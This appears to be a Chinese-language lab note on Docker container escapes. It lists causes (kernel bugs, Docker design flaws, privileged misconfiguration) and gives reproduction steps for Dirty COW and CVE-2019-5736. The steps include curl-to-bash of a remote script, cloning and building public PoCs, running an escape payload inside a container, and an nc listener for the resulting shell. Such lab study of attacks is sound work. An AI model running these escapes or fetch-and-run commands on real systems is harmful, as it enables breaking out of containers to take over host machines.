 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812242-1988640787.png)

```plain
docker环境执行命令
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812672-100292214.png)

容器逃逸漏洞

```plain
权限提升，逃逸的可能性，引起漏洞成因：
1.由内核漏洞引起 ——Dirty COW(CVE-2016-5195)
2.由 Docker 软件设计引起——CVE-2019-5736、CVE-2019-14271，CVE-2020-15257
3.由配置不当引起——开启privileged（特权模式）+宿主机目录挂载（文件挂载）、功能（capabilities）机制、sock通信方式
-CVE-2016-5195
https://github.com/gebl/dirtycow-docker-vdso
https://www.ichunqiu.com/experiment/catalog?id=100295
# 使用本地1234端口连接docker的1234端口运行dirtycow镜像，并将其临时命名为test
# 其中 test：为临时名称，可以自定义填写。 -p： 第一个端口为本机的端口，第二个端口为Docker的端口。 -itd：意思是在后台运行，交互式运行，并且输出当前的信息 /bin/bash：调用Shell
1.启动docker
docker run --name=test -p 1234:1234 -itd dirtycow /bin/bash 
2.进入镜像内部
docker exec -it test /bin/bash
3.编译并运行POC
cd /dirtycow-vdso/  
make 
./0xdeadbeef   



查看镜像：docker images

在docker中创建文件，不会影响真机上的文件。如果进行了docker逃逸，那就会影响到真机的文件。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812463-272010547.png)

```plain
-CVE-2019-5736
参考：https://blog.51cto.com/u_15060465/4336524
复现：curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh
1、下载POC
git clone https://github.com/Frichetten/CVE-2019-5736-PoC
2、修改编译生成payload
CGO_ENABLED=0 GOOS=linux GOARCH=amd64  go build main.go
3.将该payload拷贝到docker容器中（此时可以模拟攻击者获取了docker容器权限，在容器中上传payload进行docker逃逸） 并执行
docker cp main ecca872da49d:/home
docker exec -it ecca872da49d bash
cd /home/
chmod 777 main
./main
4、再次进入docker镜像后监听即可收到
docker exec -it 镜像ID bash
nc -lvvp
```
